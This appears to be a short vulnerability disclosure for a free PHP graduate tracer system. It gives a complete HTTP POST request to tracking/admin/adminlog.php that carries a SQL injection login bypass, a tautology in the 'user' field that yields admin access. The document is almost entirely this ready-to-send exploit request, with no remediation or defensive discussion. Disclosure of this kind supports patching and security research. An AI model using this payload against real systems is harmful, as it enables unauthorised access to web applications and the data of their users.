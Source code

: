 # Online Graduate Tracer System for College of ICT Alumni in PHP Free Source Code
### vendors:https://www.sourcecodester.com/php/15904/online-graduate-tracer-system-college-ict-alumni.html
### The program is built using the phpstudy 8.1.1.3
### Vulnerability File: tracking/admin/adminlog.php
### Vulnerability location: tracking/admin/adminlog.php user
user=*
[+] Payload:
```
POST /tracking/admin/adminlog.php HTTP/1.1
Host: www.testcms.com
Content-Length: 51
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.testcms.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.testcms.com/tracking/admin/adminlog.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; 
x-forwarded-for: 127.0.0.1
Connection: close

user=admin%27 or '1'='1&password=admin&submit=login
```
![image](https://user-images.githubusercontent.com/127461763/224208144-5c03ddba-a7d7-4ec6-9475-50696ce52780.png)

